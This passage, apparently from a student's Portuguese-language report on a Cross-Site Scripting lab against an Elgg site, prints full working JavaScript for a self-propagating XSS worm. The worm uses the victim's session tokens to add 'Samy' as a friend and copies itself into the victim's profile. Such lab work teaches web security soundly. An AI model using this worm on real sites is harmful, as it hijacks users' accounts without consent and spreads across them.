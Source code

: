 ### Pergunta 3 - O que acontece se removermos a linha 1

Caso a linha 1 seja removida, Samy irá se atacar como podemos ver:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print11.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print11.png)

### Tarefa 6 - Escrever um worm XSS auto-propagável

Para esta tarefa o código da tarefa 5 foi utilizado como base, a auto propagação se da pela busca no código pela tag HTML em que o id seja worm, o conteúdo desta tag então é utilizado para editar o perfil da vítima assim sempre que uma um usuário acessar um perfil infectado ele também se infectará. O código abaixo foi utilizado para realizar a propagação do worm e também adicionar Samy na lista de amigos da vitima, para isto colamos no campo About me no perfil do usuário Samy.

```jsx
<script id="worm" type="text/javascript">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
  alert(jsCode)
                        
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="__elgg_token="+elgg.security.token.__elgg_token;

  //Requisição GET para adicionar Samy como amigo
  var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&" + token + ts;
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();

  //Requisição POST para adicionar worm à descrição das vítimas
  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var desc = "&description=Infectado" + wormCode + "&accesslevel[description]=2";
  var content = token + ts + desc + guid;
  var samyGuid=47; 
  if(elgg.session.user.guid!=samyGuid)
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
	Ajax.send(content);
  }
 
}
</script>
```
